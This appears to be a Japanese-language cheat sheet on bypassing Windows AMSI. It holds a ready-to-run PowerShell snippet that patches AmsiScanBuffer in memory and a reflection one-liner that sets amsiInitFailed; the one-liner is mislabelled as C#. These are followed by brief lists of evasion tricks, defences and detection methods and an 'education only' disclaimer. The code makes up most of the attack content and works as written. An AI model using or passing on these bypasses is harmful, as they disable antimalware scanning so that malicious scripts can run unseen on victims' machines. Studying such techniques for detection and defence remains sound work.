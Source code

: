 # AMSI Bypass Techniques

**対応OS**: Windows

## 概要
Windows Defender AMSIのバイパス手法について解説します。

## 基本的な手法

### AMSIバッファーのパッチ
```powershell
# メモリパッチ
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

### AMSIコンテキストの初期化阻止
```csharp
// AMSIInitFailureのフィールドを変更
typeof(System.Management.Automation.AmsiUtils)
    .GetField('amsiInitFailed', BindingFlags.NonPublic | BindingFlags.Static)
    .SetValue($null, $true)
```

## 検知回避テクニック
- 文字列の難読化
- メモリパターンの変更
- 実行フローの制御
- 遅延実行の利用

## 防御策
- AMSIの最新バージョンの使用
- メモリ保護の強化
- 実行ポリシーの制限
- ログ監視の強化

## 検知方法
- メモリパッチの検知
- 不審なDLLロード
- PowerShellログの監視
- プロセスの挙動分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 